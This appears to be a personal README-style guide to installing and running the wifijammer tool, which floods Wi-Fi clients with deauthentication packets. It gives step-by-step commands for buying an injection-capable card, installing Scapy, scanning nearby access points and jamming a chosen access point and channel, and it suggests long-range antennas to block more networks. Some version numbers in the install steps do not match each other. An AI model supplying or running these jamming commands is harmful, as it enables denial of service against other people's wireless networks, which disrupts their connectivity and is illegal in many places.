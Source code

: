 # Source: https://github.com/DanMcInerney/wifijammer
# Works with wireless cards capable of injection (Alfa has some good ones)
# Take care to buy one that works on 2.4 Ghz and 5 Ghz, if you block a lot buy long range antenna
# Examples: https://spoilerfoiler.com/packet-injection-wireless-card-reviews/

## Install python2.7

	sudo apt install python2
	sudo apt install python3-scapy

## Clone Repo
	git clone https://github.com/DanMcInerney/wifijammer
	cd wifijammer

## Install Scapy (replaces nmap and everything network related)
	wget https://github.com/secdev/scapy/archive/v2.4.4.tar.gz
	tar -xf v2.2.0.tar.gz
	cd scapy-v2.2.0
	sudo apt install python-setuptools
	sudo python2.7 setup.py install
	

## Connect supported wifi device

## Deactivate normal interface

### a) In the Ubuntu Wifi Settings:
Go into Ubuntu WIFI-Settings. Click on the network you are in and uncheck "Connect automatically..."

Take Wifi into Airplane mode

Take Wifi back into normal mode

### b) (or) in the terminal:
List interfaces with:
	ip a

Take down normal interface:
	ifconfig wlan0 down
## Select wlan iface
	ip a


## List Accesspoints
	sudo iwlist wlx9cefd5fbf646 scanning | egrep 'Cell |Encryption|Quality|Last beacon|ESSID|Channel'
## Start deauthenticating with

	sudo python2.7 wifijammer -a Address-from-List -c Channel-from-List --world

## Optionally: Skip an MAC Address from being jammed
Add option:
	-d -s MAC-Address
